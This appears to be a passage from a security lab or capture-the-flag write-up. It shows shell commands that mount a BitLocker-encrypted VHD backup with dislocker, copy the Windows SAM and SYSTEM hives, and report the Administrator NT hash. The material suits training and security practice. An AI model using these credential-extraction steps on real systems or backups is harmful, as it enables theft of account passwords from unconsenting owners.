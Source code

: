 <figure><img src="../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

```
sudo mkdir /media/backup_bitlocker /media/mount
sudo losetup -P /dev/loop100 Backup.vhd
```

<figure><img src="../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

```
sudo dislocker -v -V /dev/loop100p2 -u -- /media/backup_bitlocker
sudo mount -o loop,rw /media/backup_bitlocker/dislocker-file /media/mount
ls -la /media/mount
```

![](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252FiHa0UQHOxF3OdJR8bgWf%252FScreenshot%2828%29.png%3Falt%3Dmedia%26token%3D9a918a10-0fb4-42bb-b400-92cb672f6df6\&width=768\&dpr=4\&quality=100\&sign=105b4d84\&sv=2)

```
sudo cp /media/mount/SAM /root
sudo cp /media/mount/SYSTEM /root
```

![](https://faresbltagy.gitbook.io/~gitbook/image?url=https%3A%2F%2F2537271824-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FIswWWP3l0rGuQmG2WUcr%252Fuploads%252FKASjzxeE4yxp4K2y3cpf%252FScreenshot%2830%29.png%3Falt%3Dmedia%26token%3D312b2dc8-ad71-4e63-9489-e0284e6e7a5c\&width=768\&dpr=4\&quality=100\&sign=ae80a08a\&sv=2)

Here, we can see the NT hash for the Administrator account.

<figure><img src="../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>
